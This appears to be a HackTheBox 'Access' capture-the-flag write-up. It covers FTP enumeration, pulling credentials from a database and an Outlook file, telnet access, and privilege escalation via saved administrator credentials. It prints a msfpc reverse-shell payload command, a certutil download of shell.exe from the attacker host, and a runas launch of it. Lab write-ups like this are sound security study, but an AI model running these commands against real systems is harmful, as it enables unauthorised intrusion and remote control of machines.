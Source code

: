 ```yaml
---
layout: post
title: Access writeup (HackTheBox)
---
```


# Information Gathering
I started with an `nmap` scan.
```
nmap -sC -sV -oA nmap/access -v 10.10.10.98
```
3 ports came out of the scan:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

anonymous login is allowed on the FTP, so I checked that first.
There were two directories, `Backups` and `Engineer`. I first checked `Backups` because it sounds interesting. It contained a file called `backups.mdb`, which was a Microsoft Access Database. Then I checked the `Engineer` directory, which contained a file called `Access Control.zip`, so I downloaded it. I tried unzipping `Access Control.zip` but it required a password. So I took a look at `backup.mdb` using `strings` to see if I could find a password. After some time I found the string `access4u@security` which looked like it would work as a password. I unzipped the file using 7z.
```
7z e -paccess4u@security Access\ Control.zip
```
and got the file `Access\ Control.pst`, which was a Microsoft Outlook file. 
After opening the file with Outlook I could read an email.
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```
This gave me credentials for a service...

# Getting a shell
I tried `telnet`ing to the box. And got a login prompt, I filled it the credentials I gained from the email.
```
telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```
I went to the `Desktop` folder to get `user.txt`.
```
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
ff1f3b(snip)
```

# Privilege Escalation
I first tried to use PowerUp from github, but it didn't have any results.
Then I checked if there were stored credentials on the box, which appeared to be the case.
```
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
This meant that I could do `runas` as `Administrator`
I created a reverse shell payload using `msfpc`. 
```
msfpc windows 10.10.13.66 1337 msf reverse
```
I set up a listener using the created `.rc` file, and renamed the shell to `shell.exe`.
I downloaded the shell file to `C:\Users\security\AppData\Local\Temp\` using `certutil`
```
certutil -urlcache -split -f http://10.10.13.66:8000/shell.exe
```
Once downloaded I used `runas` to run the shell.
```
runas /savecred /user:Administrator shell.exe
```
I got a connection with the machine.
```
msf exploit(multi/handler) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > cd /Users/Administrator/Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 22:55:15 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-21 23:07:29 +0100  root.txt

meterpreter > cat root.txt
6e1586(snip)
```
